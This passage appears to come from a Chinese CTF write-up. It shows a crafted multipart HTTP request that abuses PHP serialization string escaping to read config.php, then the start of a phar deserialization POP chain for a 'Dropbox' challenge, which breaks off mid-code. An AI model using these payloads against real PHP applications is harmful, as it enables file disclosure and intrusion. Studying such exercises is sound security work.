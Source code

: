 ```
Cookie: PHPSESSID=b86493a015084e5774751fd0b405fbf3
Connection: close

------WebKitFormBoundaryj2Bi57wuJTQvgVXE
Content-Disposition: form-data; name="phone"

01234567891
------WebKitFormBoundaryj2Bi57wuJTQvgVXE
Content-Disposition: form-data; name="email"

1127@qq.com
------WebKitFormBoundaryj2Bi57wuJTQvgVXE
Content-Disposition: form-data; name="nickname[]"

wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}
------WebKitFormBoundaryj2Bi57wuJTQvgVXE
Content-Disposition: form-data; name="photo"; filename="aaaa"
Content-Type: application/octet-stream

aaaaa
------WebKitFormBoundaryj2Bi57wuJTQvgVXE--

```





### Dropbox

用download.php发现可以任意文件下载但是用open_basedir限制了目录,猜测flag再根目录(/flag.txt)

题目提示phar,分析一下,最后是要用File的close()来读取文件

魔术方法

```php
FileList : __call	__destruct
User : __destruct
```



User->FileList(`__call`)->File(`close`)



```php
<?php
class User {
    public $db;
    public function __construct()
    {
        $this->db=new FileList();
    }
}

class FileList {
    private $files;
    private $results;
    private $funcs;

    public function __construct() {
        $file=new File();
        $this->files=array($file);
        $this->results=array();
        $this->funcs=array();
    }
```